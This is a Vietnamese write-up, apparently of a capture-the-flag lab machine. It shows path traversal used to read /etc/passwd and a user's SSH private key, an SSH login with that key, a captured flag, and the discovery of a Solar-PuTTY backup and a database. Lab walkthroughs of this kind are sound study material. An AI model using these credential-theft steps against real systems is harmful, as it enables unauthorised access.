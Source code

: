 <img width="1636" height="948" alt="image" src="https://github.com/user-attachments/assets/c896055a-bf7d-4223-85d7-2a91a58113a7" />

Thêm header vào và thử path traversal thì được:

<img width="1569" height="842" alt="image" src="https://github.com/user-attachments/assets/22babc09-ec50-450e-85f4-478ed3a61e7f" />

Nhìn vào file `/etc/passwd` thì thấy được user `shirohige` có vẻ nghịch được, tôi thử đọc ssh xem như nào:

<img width="1488" height="872" alt="image" src="https://github.com/user-attachments/assets/221980d9-7d00-4596-8bc9-d589d4405266" />

Và đã có được `id_rsa`, tiếp theo thì login vào:

```
❯ chmod 600 id_rsa
❯ ssh -i id_rsa shirohige@10.10.11.37
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Sep 19 06:50:39 2025 from 10.10.14.8
shirohige@instant:~$ cat user.txt 
be7c7aa484cb162e403dbe0cb60a7320
```

Trong quá trình khám phá tôi có tìm thấy file backup:

```
shirohige@instant:~$ ls /opt/backups/Solar-PuTTY/
sessions-backup.dat
```

Tôi search google cách để mở file, tìm được đường link [này](https://github.com/VoidSec/SolarPuttyDecrypt)

<img width="1364" height="516" alt="image" src="https://github.com/user-attachments/assets/90cd3a50-c5f2-4a8b-ac97-77ed112af005" />

Nhưng khi mở thì yêu cầu mật khẩu, thế nên tôi để đó rồi đi khám phá tiếp.

Tôi tìm được file databases:

```
shirohige@instant:~$ ls projects/mywallet/Instant-Api/mywallet/instance/
instant.db
shirohige@instant:~$ pwd
/home/shirohige
```
